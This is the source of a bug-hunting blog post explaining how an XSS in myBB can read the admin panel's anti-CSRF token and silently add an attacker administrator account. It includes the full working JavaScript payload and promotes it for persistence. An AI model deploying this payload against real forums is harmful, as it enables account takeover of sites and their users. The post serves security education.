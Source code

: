 ```yaml
---
layout: post
title:	"myBB - Add Administrator via XSS"
date:	2019-05-29 03:00:00
categories:
    - notes
tags:
    - bug_hunting
    - bug_writeup
---
```

<head>
	<title> myBB - Add Administrator via XSS </title>
</head>


# i. Introduction
While browsing Twitter, I happened to come upon [hakluke's](https://twitter.com/hakluke) blog post about upgrading an XSS from a medium to a critical bug. Long story short it detailed on how an XSS is able to bypass most CSRF protection mechanisms, and completely bypassing the Same Origin Policy. The most popular anti-CSRF mechanism are CSRF tokens. However, Javascript is able to request the form, parse the token, and then send it along with the subsequent request to perform a sensitive action. 

If you would like to read more about how this works, I highly recommend reading hakluke's blog post which can be found here: https://medium.com/@hakluke/upgrade-xss-from-medium-to-critical-cb96597b6cc4

hakluke included several proof of concepts for popular CMS platforms such as Wordpress and Drupal. I decided I wanted to give it a shot, and try testing it with a forum software that we all know and love... myBB. 

There are several reasons why I chose myBB, however the major one was that developers are able to create their own plugins similar as to Wordpress. By allowing developers to create third party plugins, it opens the door for a plethora of bugs, which XSS seems to be common. 


# ii. Exploitation

I have modified hakluke's original Wordpress script to work with myBB.

Script:
~~~
/*
mybb - adds administrator with username hacker and password hacker12345
tested on latest version of mybb v1.8.20
original script by hakluke modified by mqt
*/
var mybb_root = "" // don't add a trailing slash
var req = new XMLHttpRequest();
var url = mybb_root + "/admin/index.php?module=user-users&action=add";
var regex = /my_post_key" value="([^"]*?)"/g;
req.open("GET", url, false);
req.send();
var nonce = regex.exec(req.responseText);
var nonce = nonce[1];
var params = "my_post_key="+nonce+"&username=hacker&password=hacker12345&confirm_password=hacker12345&email=hacker@hacker.com&usergroup=4&displaygroup=0"; //make sure passwod is 6+ chars
req.open("POST", url, true);
req.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
req.send(params);
~~~ 

In short, in order to perform any sensitive action in the myBB Admin Panel, there is a token that is required which is called `my_post_key`. The following script sends a request to the myBB Admin Panel (which seems to have a lifespan of 30 minutes before asking the user to reauthenticate), retrieves the source and parses it looking for `my_post_key`. Once it finishes, it sends a subsequent request to add a user to the Administrator group with the username as hacker and password as hacker12345.


Here is a video proof of concept demonstrating it in action:
[![Little red ridning hood](http://i.imgur.com/7YTMFQp.png)](https://vimeo.com/3514904 "Little red riding hood - Click to Watch!")

You can find this script and more powerful scripts on the `weaponised-XSS-payloads` repo which can be found here: https://github.com/hakluke/weaponised-XSS-payloads

# iii. Conclusion

What really made this concept interesting to me was that whenever people hear XSS, the first thing that pops into mind is cookie stealing. While cookie stealing can be very powerful, there are some downsides. One major downside occurs in stored XSS. In stored XSS, it is hard to gauge whenever the payload will execute. In a lot of cases, by the time the payload executes and you receive the cookie, the session is expired by then. However using a script like this, you can ensure that you have some form of persistence.

Once again, all credit goes to [hakluke](https://twitter.com/hakluke) and their wonderful blog post.

As always, thank you for reading.
- mqt

Sources:
~~~
https://medium.com/@hakluke/upgrade-xss-from-medium-to-critical-cb96597b6cc4
~~~

